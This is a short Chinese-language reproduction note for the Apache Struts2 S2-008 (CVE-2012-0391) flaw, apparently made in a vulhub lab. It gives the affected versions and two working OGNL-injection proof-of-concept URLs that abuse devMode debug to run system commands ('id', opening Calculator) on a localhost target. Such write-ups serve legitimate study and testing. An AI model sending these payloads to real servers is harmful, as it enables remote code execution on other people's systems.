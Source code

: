 # （CVE-2012-0391）s2-008

## 一、漏洞简介

主要是利用对传入参数没有严格限制，导致多个地方可以执行恶意代码

第一种情况其实就是S2-007，在异常处理时的OGNL执行

第二种的cookie的方式，虽然在struts2没有对恶意代码进行限制，但是java的webserver（Tomcat），对cookie的名称有较多限制，在传入struts2之前就被处理，从而较为鸡肋

第四种需要开启devModedebug模式

## 二、漏洞影响

2.1.0 - 2.3.1

## 三、复现过程

复现采用的是第四种devMode的debug模式，造成的任意代码执行

### POC

第一个vulhub给的poc 不好使呀 java.lang.UNIXProcess@493c1254

```bash
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)

```

有回显

```bash
/S2-008/devmode.action?debug=command&expression=%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29

```


